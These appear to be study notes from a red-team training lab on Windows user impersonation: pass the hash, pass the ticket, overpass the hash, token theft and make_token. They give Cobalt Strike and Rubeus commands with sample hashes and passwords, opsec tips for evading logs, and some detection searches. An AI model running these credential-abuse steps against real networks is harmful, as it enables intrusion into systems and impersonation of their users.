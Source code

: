 # User Impersonation

There are techniques which use stolen creds to access one of the target computers. There are also techniques that don't use credentials directly, but take advantage of processes that the user is running on a machine we have elevated access on. Test elevated access to a machine by listing the C drive, as this requires local admin.

## Pass the Hash

Allows you to authenticate to a Windows service using a user's NTLM hash. It starts a new session with a fake identity and then replaces the session information with the domain, username, and NTLM hash provided. 

Beacon has a ```pth``` command that executes Mimikatz in the background (requires elevated privs).

In lab, on beacon prompt:

1. ```getuid``` - find out who I am
2. ```ls \\web.dev.cyberbotic.io\c$``` - attempt to list the C$ share of the WEB machine (this will fail because bfarmer is not a local admin)
3. ```pth DEV\jking 59fc0f884922b4ce376051134c71e22c``` - run ```pth``` with jking's username and NTLM hash; Mimiktaz passes the new credentials over a named pipe, which Beacon then impersonates automatically
4. ```ls \\web.dev.cyberbotic.io\c$``` - attempt to list the C$ share works now!
5. ```rev2self``` - drop impersonation when no longer needed

Two ways to detect ```pth```:
* The R/W handle to LSASS (access mask of 0x1038)
* Look for ```echo foo > \\.\pipe\bar``` pattern in command-line logs (via the "Suspicious Named Pipe Impersonation" search)

## Pass the Ticket

Allows you to add Kerberos tickets to an existing logon session (LUID) that you have access to or a new one you create. Accessing a remote resource will then allow that authentication to happen via Kerberos.

Use the TGT extracted from the logon session on Workstation 2. Create a blank, "sacrificial" logon session that we can pass the TGT into (can only hold a single TGT at a time -- also, passing jking's TGT into bfarmer's LUID would erase bfarmer's TGT and cause all sorts of authentication issues for the user)

1. ```execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe``` - start a new hidden process of your choice; also creates a new ticketless LUID
2. ```execute-assembly Rubeus.exe ptt /luid:0x798c2c /ticket:doIF...LklP``` - pass the TGT into this new LUID
3. ```steal_token 4748``` - impersonate the process that we created using the PID createnetonly returned
4. To clean up:
   * ```rev2self```
   * ```kill <PID>```

Rubeus defaults to a random username, domain, and password, which will appear in the associated <PID> logon event. The "Suspicious Logon Events" saved search will show 4624's where the TargetOutboundDomainName is not an expected value. To set these values (password doesn't have to be real):

```execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123```

## Overpass the Hash

Allows us to request a Kerberos TGT for a user, using their NTLM or AES hash. Elevated privs are required to obtain user hashes, but not to request a ticket.

* ```execute-assembly Rubeus.exe asktgt /user:jking ntlm:59fc...e22c /nowrap``` - use the returned TGT for Pass the Ticket (but this stands out in the logs since NTLM uses RC4)
* ```execute-assembly Rubeus.exe asktgt /user:jking aes256:4a8...57c6 /nowrap``` - to get an AES256 TGT; gets logged as 4768, but blends in (except Ticket Options and Supplied Realm Name; uses the FQDN of the domain of the computer)
* ```execute-assembly Rubeus.exe asktgt /user:jking aes256:4a8...57c6 /domain:DEV /opsec /nowrap``` - uses the NETBIOS name and correct Ticket Options to blend in better

Rubeus' method doesn't touch LSASS (unlike Mimikatz) but does generate Kerberos traffic from an odd process, not LSASS.  These can be seen using the "Kerberos Traffic from Suspicious Process" saved search.

## Token Impersonation

If we elevate or are on a system where a user is running a process, we can impersonate the token. Get a handle to the target process, open and copy its primary access token, and then impersonate that token. Ability to abuse it goes away when the user closes the process. By taking the additional steps of extracting tickets or hashes, we provide ourselves a more guaranteed or "future-proof" way of using the creds. When impersonating users, CS shows who the beacon is impersonating.

1. List the running processes on Workstation 2 from an elevated prompt to see that jking is running an instance of ```mmc``` (in PS ```Get-Process```).
2. ```steal_token <PID>``` to access a target
3. ```ls \\web.dev.cyberbotic.io\c$``` to show elev access 
4. 

## Token Store

CS can store tokens stolen for future use. Stealing a token opens a handle to the target process and process token, so the fewer times it's done the better. Also, keeping a token prevents the OS from closing the session if they log off.

* ```token-store steal <PID>``` - steal token
* ```token-store show``` - show tokens
* ```token-store use <ID>``` - use a token
* ```token-store remove <ID>``` - delete token
* ```token-store remove-all``` - flush tokens

## Make Token

Impersonate a user with their plaintext password. Uses [LogonUserA](https://learn.microsoft.com/en-gb/windows/win32/api/winbase/nf-winbase-logonusera) API. 

* ```make_token DEV\jking Qwerty123``` 


